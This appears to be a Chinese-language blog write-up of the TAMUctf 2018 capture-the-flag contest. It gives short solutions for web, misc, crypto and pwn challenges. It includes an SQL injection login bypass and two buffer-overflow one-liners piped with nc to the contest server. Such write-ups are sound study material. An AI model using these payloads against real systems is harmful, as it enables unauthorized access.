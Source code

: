 ```yaml
---
title: TAMUctf 18
metaAlignment: center
coverMeta: out
thumbnailImagePosition: left
date: 2018-02-27 21:38:45
categories:
	- Writeups
	- TAMUctf
thumbnailImage: cover.png
keywords:
    - TAMUctf18
    - Writeups
tags:
    - Writeups
    - TAMUctf18
---
```

10 天的 CTF 比賽
<!-- more -->
<!-- toc -->

# Intro
## [1 pts] Howdy!
簽到題，不解釋。

# Web
## [20 pts] Reading
不太懂這題的意義，總之原始碼 `Ctrl+F` 搜尋 `gigem{` 找唯一個有右大括號結尾的就是 flag。

## [40 pts] Bender
很簡單，看 `/robots.txt` 就可以了。

## [50 pts] Bubbles
簡單的 SQL Injection
```
Username: ' or 1=1 --
Password: ' or 1=1 --
```

# Misc
## [20 pts] breadsticks2
用 `file` 指令發現檔案格式為：`Microsoft OOXML`，直接把副檔名改成 `.docx` 就可以打開看到 flag 了。

## [25 pts] you can run, you can hide
連線進去環境以後 `ls -al` 看當前目錄底下看當前目錄底下的所有路徑，flag 就藏在 `~/.secret/.dont_delete_me.txt`。

# Crypto
## [100 pts] XORbytes
1. 利用 `$ xortool -m 100 -c 00 hexxy` 找出 xor 的 key：`QB1g3l4B5uzPjjD4`
2. 把 `heexy` 用相同的 key 再做一次 XOR 運算還原 ELF 檔案
3. 執行即可拿到 flag

# pwn
## [25 pts] pwn1
內容待補
```
Exploit:
$ python -c "print 'A'*(0x23-0x0C) + '\x11\xBA\x07\xF0'" | nc pwn.ctf.tamu.edu 4321
```

## [50 pts] pwn2
內容待補
```
Exploit:
$ python -c "print 'A'*(0xEF+4) + '\x4B\x85\x04\x08'" | nc pwn.ctf.tamu.edu 4322
```